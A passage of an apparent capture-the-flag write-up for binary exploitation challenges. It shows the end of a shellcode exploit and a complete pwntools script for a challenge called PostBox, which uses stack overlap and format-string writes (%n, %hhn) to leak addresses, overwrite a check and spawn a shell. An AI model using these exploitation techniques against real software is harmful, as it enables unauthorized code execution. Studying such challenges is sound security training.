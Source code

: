```python
    
        push 1 ; pop rdi
        push __NR_write ; pop rax
        syscall
    """]
    shellcode = b''.join([asm(i).ljust(0x16, b'\x90') + asm('jmp $+0xa') for i in shellcode])

    io.send(shellcode)

    pass

if __name__ == '__main__':
    exp()
    io.interactive()
```

## PostBox

未初始化变量栈重叠和格式化字符串。

```python
from pwn import *
from LibcSearcher import*
#context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl']
context.arch = 'amd64'
context.os = 'linux'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def exp():
    io = remote('127.0.0.1', 45808)
    #io = process('./PostBox')
    saf = lambda x, y: io.sendlineafter(x, y)
    saf("choice:\n",str(2))
    saf(":\n", b'A'* 0x2fc + b'\x52\xbf\x01\x00')
    saf(":\n", "%4c%49$n%280c%50$n")
    saf(":\n", "leak_addr:%53$p")
    io.recvuntil("addr:")
    leak_addr = int(io.recv(14),16)
    textbase = leak_addr - 0x17c3
    log.success("leak address:" + hex(leak_addr))
    log.success("base address:" + hex(textbase))
    check_failed = textbase + 0x4028
    backdoor = textbase + 0x177e
    log.success("check_failed address:" + hex(check_failed))
    payload = b'%23c%13$hhn%103c%14$hhnA' + p64(check_failed + 1) + p64(check_failed)
    saf(":\n", payload)
    saf(":\n", b'a' * 281)
    io.recvuntil("mit\n")
    try:
        res = io.recv(timeout=2)
        if b"Enjoy" in res:
            print("[+]Get shell.")
            io.interactive()
            return True
        else:
            io.close()
            return False
    except EOFError:
        io.close()
        return False
if __name__ == '__main__': 
    for i in range(100):
        if exp():
```